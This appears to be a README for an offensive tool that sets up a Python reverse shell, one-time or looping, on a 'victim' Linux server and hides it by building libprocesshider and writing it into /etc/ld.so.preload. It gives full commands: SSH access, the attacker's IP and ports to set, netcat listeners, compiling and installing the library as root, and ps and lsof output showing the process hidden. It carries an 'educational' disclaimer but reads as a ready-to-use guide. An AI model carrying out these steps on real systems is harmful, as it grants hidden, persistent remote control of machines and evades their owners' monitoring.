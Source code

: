 <h1 style="font-size:10vw" align="center">Linux Persistence Access </h1>
<h2 style="font-size:7vw" align="center"><i>Exploit using Python Reverse Shell</i></h2>
*For educational and authorized security research purposes only*

## Original Exploit Authors
[@gianlucaborello](https://github.com/gianlucaborello), [@therealdreg](https://github.com/therealdreg)

## Exploit Description
This script is python based and is used to create a reverse shell of the victim machine. There are two scripts, the first one is used for a one-time reverse shell and the other for an infinite reverse shell with a loop mechanism every 2 seconds. And to improve defense evasion, we'll hide processes on Linux using the ld preloader.

## Step Guides

1. Establish a connection to victim's machine using SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@www.servint.org
```
2. Change **s.connect(("172.16.10.7",2220))** in the shell.py file with the perpetrator's address for one-time reverse shell
3. Change **sdregs.connect(("172.16.10.7",9999))** in the loop-shell.py with the perpetrator's address for infinite reverse shell
4. Make shell.py and loop-shell.py executable:
```
administrator@Server-01:/tmp/libprocesshider$ chmod +x shell.py
administrator@Server-01:/tmp/libprocesshider$ chmod +x loop-shell.py
```
5. Change static const char* process_to_filter = "shell.py"; in the processhider.c with the script you want to use
6. Then, compile the library:
```
administrator@Server-01:/tmp/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
administrator@Server-01:/tmp/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```
6. Then, Load it with the global dynamic linker
```
root@Server-01:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
7. Create new terminal on perpetrator's machine and run this command for connect with one-time reverse shell and this command for infinite reverse shell::
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2220
```
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9999
```
8. Run shell.py or loop-shell.py:
```
administrator@Server-01:/tmp/libprocesshider$ ./shell.py
administrator@Server-01:/tmp/libprocesshider$ ./loop-shell.py
```
9. And your process will be off the radar 
```
administrator@Server-01:/tmp/libprocesshider$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
```
```
administrator@Server-01:/tmp/libprocesshider$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
```

## Exploit Requirements
- python3
- gcc

## Demo


## Warning
⚠️ Becareful when running this exploit on your system

## Credits
- https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/
- https://github.com/gianlucaborello/libprocesshider
- https://github.com/therealdreg/python_reverse_shell_detached_background/blob/main/README.md
